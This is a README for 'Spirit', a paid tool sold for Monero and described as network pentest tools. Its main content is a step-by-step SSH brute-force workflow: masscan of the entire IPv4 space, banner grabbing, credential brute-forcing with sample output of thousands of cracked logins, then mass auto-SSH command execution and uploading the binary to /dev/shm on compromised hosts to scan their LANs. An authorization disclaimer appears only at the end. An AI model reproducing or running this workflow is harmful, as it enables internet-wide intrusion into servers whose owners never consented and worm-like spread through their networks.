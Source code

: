 # Spirit - Network Pentest Tools

### [Download the latest Spirit release](https://github.com/theaog/spirit/releases)
```bash
$ wget https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
$ curl -OL https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
```
> NOTE: Plenty of fake Spirit clones are being distributed, make sure to verify you're running the original by checksum: `$ sha256sum -c spirit.sum`

> [`$ ./spirit --help`](./HELP) shows you all the included tools. \
Most commands have subcommands `./spirit <command> --help`

## Demo
[![asciicast](https://asciinema.org/a/645079.svg)](https://asciinema.org/a/645079?autoplay=true&loop=true)

## Quick Start
```bash
# download spirit
wget https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
# unpack spirit
tar xvf spirit.tgz
./spirit --help

# install masscan
sudo apt install masscan
# copy masscan into your current working directory
cp `which masscan` .

# start the show! <class-A> <port1,port2,port3> <speed> 
# ./spirit ports generates 3 random ports 1-65535 and keeps track of
# already generated port numbers in ports.lst
./go.sh 172 $(./spirit ports) 50000
```

## Upgrade Spirit automaticaly
```bash
./spirit upgrade
Upgrading 87% [========================>     ] (5.9/5.9 MB, 49.652 MB/s)
```

## Support
- [GitHub Issue](https://github.com/theaog/spirit/issues/new)
- [Telegram](https://t.me/pentestspirit)

## Example usage for SSH brute flow TLDR;
```bash
# First scan your network or the internet (check disclaimer) to acquire a list of open ports.
$ masscan \
    --rate="50000" \
    --ports "22,222,2222,2212" 0.0.0.0/0 \
    --exclude 255.255.255.255 \
    -oG open.lst
Scanning 4294967295 hosts [4 ports/host]
# masscan will create an open.lst file in oG (output Greppable) format.

# Parse this open.lst to format the data, so that spirit can understand it.
$ ./spirit parse
INFO created h.lst in HOST:PORT format

# Optional: create a filter.lst file if you want to skip certain SSH versions.
$ cat >filter.lst<< EOF
SSH-1.0
SSH-2.0-CISCO
SSH-2.0-Comware
EOF

# Grab SSH banners to make sure your target version is running on the host. NOTE: Makes a backup of h.lst to h.lst.bak
$ ./spirit banner
INFO backing up h.lst to h.lst.bak
SSH-2.0-OpenSSH_8.2p  13% [=>                  ] [11s:1m15s]
INFO created h.lst in HOST:PORT:BANNER format
head -n1 h.lst
100.100.100.100:2222:SSH-2.0-OpenSSH_6.6.1

# Add a password list, spirit will automatically load user:pass from a p.lst file.
# NOTE: if p.lst is not present, Spirit uses an internal passfile
$ cat > p.lst << EOF
user1:pass1
user1:pass2
user2:pass50
EOF

# Start bruting...
$ ./spirit brute
INFO loaded h.lst with 26803 hosts
INFO loaded p.lst with 4881 logins
[2478/4653]root:!1qwerty [77]found [33]blocked [1284]threads 20% [====>               ] [20s:1h13m36s]
failed connections statistics:
(    7)  ssh: closed network connection 30s timeout
(    7)  total failed
results stored in:
- found.ssh # for quick manual connect
- found.login # user:pass combinations that worked
- found.lst # used by `spirit auto-ssh` for connecting en-masse
[26803]hosts [4000]bruted [3000]found [19803]blocked

# Connect to all your found hosts automatically & run commands.
$ ./spirit auto-ssh --command 'whoami && uptime'
# Upload spirit to all hosts and scan the LAN
$ ./spirit auto-ssh --upload ./spirit --command '/dev/shm/spirit scan --lan'
```


## Spirit is Free (sorta)
Scanning port 22 is unlimited, any other port requires a license.

## You can unlock Spirit's full functionality directly from the CLI by obtaining a license.
```bash
$ ./spirit buy
Monero only, you can convert other crypto assets to XMR on https://tradeogre.com
If you have any issue w/ the payment-flow, contact us https://github.com/theaog/spirit/issues
+--------------+-------------------+------------------+
| SPIRIT BASIC |    SPIRIT PRO     |   SPIRIT ULTRA   |
+--------------+-------------------+------------------+
| brute        | brute-key         | exploit          |
| banner       | auto-ssh          | proxy-banner     |
| scan         | masscan           | encrypt          |
| auto-brute   | passwd            |                  |
|              | abuse             |                  |
|              |                   |                  |
|              |                   |                  |
+--------------+-------------------+------------------+
|  3 SERVERS   | 6 SERVERS + BASIC | 12 SERVERS + PRO |
+--------------+-------------------+------------------+
Use the arrow keys to navigate: ↓ ↑ → ←
? Select your Spirit version::
  ▸ Basic TRIAL $15 (3 days)
    Basic $100 (30 days)
    Pro $200 (30 days)
    Ultra $500 (30 days)
    Referral code
```

# Support our development
## Monero (XMR) thank you! (our favorite)
`895LJnKcfTv7NHf7SN1zz5UzhBRwwvdR8NYLvXNr54jJ3GXghBoyfBKLp2dL4GcYohQatRnigct8zgK6utkjjeBxVNsky1s`

![xmrqr](asset/xmrqr.png)

## Bitcoin (BTC) thank you too!
`bc1q7plm79dgllrhrjz772x4vjrtvu9yy03738psy5`

## Get Help & Support
Open a Github [issue](https://github.com/theaog/spirit/issues) and consider encrypting your message using this pub key [aog.gpg](asset/aog.gpg).

Don't forget to give us a Star!

> NOTICE: rumors have been circulating that `spirit` contains a backdoor -- that's not true, we would never do that. We offer a bounty of 50XMR to whomever opens an issue in this repo and provides undeniable proof of the "alleged" backdoor.

Spirit is clean software the only data it sends home is your machine-id to verify the license.

# Disclaimer

This tool should be used for authorized penetration testing and/or educational purposes only.
Any misuse of this software will not be the responsibility of the author or of any other collaborator.
Use it on your own systems and/or with the system owner's permission.

Usage of any tools in this repository for attacking targets without prior mutual consent is illegal.
It is the end user’s responsibility to obey all applicable local, state and federal laws.
We assume no liability and are not responsible for any misuse or damage caused.
